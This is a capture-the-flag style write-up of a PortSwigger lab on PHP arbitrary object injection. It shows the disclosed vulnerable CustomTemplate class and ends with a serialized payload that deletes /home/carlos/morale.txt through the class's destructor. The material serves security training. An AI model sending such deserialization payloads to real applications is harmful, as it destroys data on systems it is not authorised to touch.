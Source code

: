 # [Lab: Arbitrary object injection in PHP](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php)

## Lab

This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the `morale.txt` file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

html comment at `/my-account`:

```html
<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->
```

source code disclosure at `/libs/CustomTemplate.php~`:

```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

- `file_exists()`: checks whether a file or directory exists
- `file_get_contents()`: returns the file in a string
- `file_put_contents()`: write data to a file, create file if not exists

## Solutions

```php
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```
